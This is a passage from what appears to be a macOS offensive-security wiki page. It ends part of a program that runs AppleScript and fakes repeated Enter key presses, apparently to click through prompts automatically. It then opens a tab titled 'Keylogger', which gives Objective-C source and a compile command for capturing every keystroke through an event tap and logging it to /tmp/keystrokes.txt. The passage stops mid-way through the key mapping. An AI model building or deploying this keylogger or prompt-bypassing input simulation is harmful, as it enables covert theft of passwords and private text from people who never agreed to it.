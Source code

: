 ```objectivec
            RunAppleScript();
        });

        // Simulate pressing the Enter key every 0.1 seconds
        NSLog(@"Starting key presses");
        for (int i = 0; i < 10; ++i) {
            SimulateKeyPress((CGKeyCode)36); // Key code for Enter
            usleep(100000); // 0.1 seconds
        }
    }
    return 0;
}
```
{% endtab %}

{% tab title="Keylogger" %}
Store the pressed keys in **`/tmp/keystrokes.txt`**

```objectivec
#import <Foundation/Foundation.h>
#import <ApplicationServices/ApplicationServices.h>
#import <Carbon/Carbon.h>

// clang -framework Foundation -framework ApplicationServices -framework Carbon -o KeyboardMonitor KeyboardMonitor.m

NSString *const kKeystrokesLogPath = @"/tmp/keystrokes.txt";

void AppendStringToFile(NSString *str, NSString *filePath) {
    NSFileHandle *fileHandle = [NSFileHandle fileHandleForWritingAtPath:filePath];
    if (fileHandle) {
        [fileHandle seekToEndOfFile];
        [fileHandle writeData:[str dataUsingEncoding:NSUTF8StringEncoding]];
        [fileHandle closeFile];
    } else {
        // If the file does not exist, create it
        [str writeToFile:filePath atomically:YES encoding:NSUTF8StringEncoding error:nil];
    }
}

CGEventRef KeyboardEventCallback(CGEventTapProxy proxy, CGEventType type, CGEventRef event, void *refcon) {
    if (type == kCGEventKeyDown) {
        CGKeyCode keyCode = (CGKeyCode)CGEventGetIntegerValueField(event, kCGKeyboardEventKeycode);

        NSString *keyString = nil;
        // First, handle special non-printable keys
        switch (keyCode) {
            case kVK_Return: keyString = @"<Return>"; break;
            case kVK_Tab: keyString = @"<Tab>"; break;
            case kVK_Space: keyString = @"<Space>"; break;
            case kVK_Delete: keyString = @"<Delete>"; break;
            case kVK_Escape: keyString = @"<Escape>"; break;
            case kVK_Command: keyString = @"<Command>"; break;
            case kVK_Shift: keyString = @"<Shift>"; break;
            case kVK_CapsLock: keyString = @"<CapsLock>"; break;
            case kVK_Option: keyString = @"<Option>"; break;
            case kVK_Control: keyString = @"<Control>"; break;
            case kVK_RightControl: keyString = @"<Control>"; break;
            case kVK_RightShift: keyString = @"<Shift>"; break;
            case kVK_RightOption: keyString = @"<Option>"; break;
            case kVK_Function: keyString = @"<Function>"; break;
            case kVK_F1: keyString = @"<F1>"; break;
            case kVK_F2: keyString = @"<F2>"; break;
```